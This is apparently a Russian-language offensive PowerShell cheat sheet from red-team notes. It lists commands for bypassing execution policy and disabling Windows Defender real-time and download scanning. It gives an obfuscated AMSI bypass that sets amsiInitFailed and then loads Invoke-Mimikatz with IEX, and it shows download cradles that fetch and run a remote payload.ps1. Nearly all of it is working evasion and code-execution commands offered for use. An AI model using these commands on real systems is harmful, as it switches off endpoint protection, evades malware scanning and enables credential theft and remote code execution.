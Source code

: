 # Запуск скриптов

## Предотвращение случайного запуска

В PowerShell есть механизм предотвращение случайного запуска. Это не security feature!

Обход:

```
powershell -executionpolicy bypass .\script.ps1
или
powershell -ep bypass .\script.ps1

или 

powershell -c <cmd>

или можно просто один раз вызвать 
powershell -ep bypass

или

Запускать зашифрованный код
powershell -enc
```

## Отключение Defender (нужны права)

Отключает сканирование всех скаченных файлов и аттачей

```powershell
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Bypass AMSI

AMSI — Antimalware Scan Interfaca

это универсальный стандарт интерфейса, который позволяет приложениям и службам интегрироваться с любым продуктом защиты от вредоносных программ, присутствующим на компьютере.

```powershell
PS> $w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
PS> $assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
PS> $field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
PS> $field.SetValue($null,$true)
PS> (запускаем, что хотим) IEX (New-Object Net.WebClient).DownloadString("Invoke-Mimikatz.ps1")

```

## Запуск  скриптов

Это можно сделать двумя способами:

1 Загрузить из интернета свои программы (cradle; со своего сервера, например) и запустить&#x20;

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

# Вот так можно скачать информацию и сохранить в файл: 
(New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') > payload.ps1
```

2 Запускать в закодированном виде

Для этих целей есть Invoke-CradleCrafter ([https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter))
